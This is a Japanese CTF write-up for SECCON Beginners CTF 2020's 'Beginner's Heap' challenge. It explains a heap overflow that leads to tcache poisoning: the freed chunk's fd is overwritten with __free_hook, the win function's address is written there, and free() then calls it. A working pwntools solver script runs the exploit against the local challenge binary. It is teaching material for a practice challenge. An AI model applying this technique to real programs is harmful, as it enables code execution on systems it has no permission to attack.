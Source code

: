 ```yaml
---
title: "Beginner's Heap - SECCON beginners CTF 2020"
date: 2022-05-01T16:46:44+09:00
tags: ["pwn", "SECCONbeginnersCTF2020", "ptr-yudai's chall"]
draft: false
---
```


[作問者writeup](https://ptr-yudai.hatenablog.com/entry/2020/05/24/174914#Pwn-293pts-Beginners-Heap-62-solves)

# 方針
Heap overflowによって、下のチャンクの`fd`とサイズを書き換えて、`tcache poisoning` によるwin関数の呼び出し。

# やる
`B`の領域を`malloc`して`free`することで、`tcache`（の0x20ようのスレッド）につなげる。
```
-=-=-=-=-= TCACHE -=-=-=-=-=
[    tcache (for 0x20)    ]
        ||
        \/
[ 0x000055dfd3002350(rw-) ]
        ||
        \/
[      END OF TCACHE      ]
-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```

### 1. Bのfdを書き換える
`free`されたチャンク(freed chunk)の`fd`が`NULL`なので、次につながっているfreed chunkはない。
ここで、AのHeap Overflowを利用して、Bの`fd`を書き換えると`fd`に値が入るので、tcache君はBの次があると錯覚する。

`A*24 + 0x31 + __freehook`を与えた図。

[![Image from Gyazo](https://i.gyazo.com/3b549b3e5a42c8e50762308c481089cf.png)](https://gyazo.com/3b549b3e5a42c8e50762308c481089cf)

### 2. fdを__free_hookで書き換える
`fd`を`__free_hook`（のアドレス）で書き換えると、`tcache`はこのようになる。

(tcacheを汚染しているので、これを`tcache poisoning`という)

```
-=-=-=-=-= TCACHE -=-=-=-=-=
[    tcache (for 0x20)    ]
        ||
        \/
[ 0x0000557af97c3350(rw-) ]
        ||
        \/
[ 0x00007effac9cc8e8(rw-) ]
        ||
        \/
[      END OF TCACHE      ]
-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```

### 3. chunk sizeを0x30にする
chunk sizeが`0x20`のままだと、一向に`__free_hook`のアドレスが返ってこない。

`0x30`にすると、Bのfreed chunkは0x30用のtcacheに繋がれるので、`tcache`の先頭に`__free_hook`のアドレスが来る。

(0x20用のtcacheに`B`と`__free_hook`が繋がってるとき)
```
tcache [0x20] -> B -> __free_hook
tcache [0x30] -> NULL
```

↓↓↓

(Bのchunk sizeを0x30にして、malloc and freeしたとき)
```
tcache [0x20] -> __free_hook
tcache [0x30] -> B
```

### __free_hookにwin関数を書き込む
`B = malloc(0x18)`で返ってくるアドレスは、`__free_hook`であることがわかる。
`__free_hook`は、`free()`を実行したときに呼ばれるフック[^1]である。
したがって、`__free_hook`に`win`関数のアドレスを書き込んで`free()`をすることで、`win`関数が呼ばれる。

[^1]: フック(Hook)は、一回経由する場所というイメージである。

### solver

```python
from pwn import *

context(os = 'linux', arch = 'amd64')
context.log_level = 'debug'

def write(data):
    io.sendlineafter("> ", "1")
    io.sendline(data)

def malloc(data):
    io.sendlineafter("> ", "2")
    io.sendline(data)

def free():
    io.sendlineafter("> ", "3")

def describe_heap():
    io.sendlineafter("> ", "4")

io = process("./chall")

#leak address
io.recvuntil("<__free_hook>: ")
addr_free_hook = int(io.recvline(), 16)
print("__free_hook address: " + hex(addr_free_hook))

io.recvuntil("<win>: ")
addr_win = int(io.recvline(), 16)
print("win address: " + hex(addr_win))

payload = b"A"*0x18
payload += p64(0x31)
payload += p64(addr_free_hook)

malloc("")
free()
write(payload)

malloc("")
free()

malloc(p64(addr_win))
free()

io.interactive()
```
